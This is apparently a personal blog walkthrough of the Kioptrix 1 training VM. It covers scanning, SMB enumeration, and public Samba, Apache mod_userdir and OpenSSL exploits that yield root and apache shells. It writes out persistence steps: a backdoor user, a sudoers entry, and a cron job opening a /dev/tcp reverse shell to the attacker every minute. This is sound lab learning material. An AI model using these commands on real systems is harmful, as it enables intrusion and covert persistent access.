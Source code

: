 ```yaml
---
layout: post
title: Kioptrix 1 - Walkthrough
---
```


I have been slow on updating the blog. Not because I haven't been hacking VMs and doing other stuff. I just got lost in other stuff.

## Scanning

So as usual I started out scanning the machine. I have been learning more about metasploit and metasploit database so I tried to use that a bit more. So I scanned with db_nmap


```
Services
========

host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
192.168.1.103  22    tcp    ssh          open   OpenSSH 2.9p2 protocol 1.99
192.168.1.103  80    tcp    http         open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.1.103  111   tcp    rpcbind      open   2 RPC #100000
192.168.1.103  139   tcp    netbios-ssn  open   Samba smbd workgroup: PMYGROUP
192.168.1.103  443   tcp    ssl/http     open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.1.103  1024  tcp    status       open   1 RPC #100024
```

## Focus on smb
After checking out the website on 80 and 443, it just had default apache pages, I decided to focus on smb. I have never worked with smb, so I had to read up on what it is, what it does, and what it is for.

So samba, or smb, is a service that provides file-sharing between unix and windows. So you can have a linux-server in the office and have people backup and save all their data on the server, even though they use windows-machines. From a user-perspective you just see a folder that you can enter and add and remove whatever files you want.

So it is not that different from a NFS or FTP-server. And after you have connected to it you can mount the share to you local filesystem. Just like NFS.

So if we search for smb or samba in metasploit we get ton's of good stuff. Some auxiliary modules and a lot of windows exploits. And even some for linux.

```
search smb
```

I tried out a few of the auxiliary modules, but they were not that great. I also tried out a few nmap-scripts, like: enum-shares, and enum-users. But neither returned any new info. So instead I opted to just connect to the server the normal way. On kali you get smbclient included, so after reading the man/help-page I connected like this:

```
smbclient -L 192.168.1.103


Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            IPC       IPC Service (Samba Server)
	ADMIN$          IPC       IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Server               Comment
	---------            -------
	KIOPTRIX             Samba Server

	Workgroup            Master
	---------            -------
	MYGROUP              KIOPTRIX

```

If you don't type any password you can make an anonymous login. Here we can see that the version is `Samba 2.2.1a`.

So I did a search with searchsploit, which I have come to really love because you can search with multiple search-terms, unlike `search` which is very buggy. And found some interesting stuff.

```
searchsploit samba linux
Samba <= 2.2.8 - Remote Root Exploit             | ./linux/remote/10.c
```

So I copied and compiled this exploit.
```
./samba -b 0 192.168.1.103
```

And it returned a root-shell. So yeah, not that difficult.

I also tried a few exploits against the apache server, as it was very old an vulnerable. There were several local exploits. But one I really liked was:

```
Apache 1.3.x - 2.0.48 - mod_userdir Remote Users Disclosure Exploit           | ./linux/remote/132.c
```

This was a really nice exploit. You can brutforce usernames really fast with it.


After I had entered I explored the system a bit. Found that root keeps a log in its mail for ssh-login attemps.
The configuration for the samba-server is found in /etc/samba

First I wanted to find out what distro it was, but it didn't show me the usual way:

```
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
```

Put in /etc I found

```
sh-2.05# cat redhat-release
cat redhat-release
Red Hat Linux release 7.2 (Enigma)
```

Then I tried to set up a new user for persistence in case someone would patch this 100 years old vulnerability. The `useradd` command was not found, so I had to add them to the path First

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Then I ran
```
useradd pelle
passwd pelle
```

Then I added the user to the sudo goup by doing
```
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

Once I had a new user with sudo-rights, I also added a cronjob to connect to the attcking machine every minute.

```
crontab -e
*/1 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

## Using openssl

So I read in the description of the VM that there are multiple ways to pwn this machine. So I set out to do it again.

This time I started focusing on Apache and OpenSSL.

So by visiting the webpage we understand that it is a RedHat-distro.
So after search with searchsploit I found this exploit

```
Apache OpenSSL - Remote Exploit (Multiple Targets) (OpenFuckV2.c)           | ./linux/remote/764.c
```

So I opened it and tried to compile it. And it failed. But in the exploit code I found
```
* http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/
```

So I followed the instructions and updated the script. And ran it. But the script kept dying. It said it managed to spawn a shell, but I was unable to interact. It turns out the second exploit it was downloading failed, even though I had updated the address. Anyways, I just removed the wget command, and got a shell as a apache user.
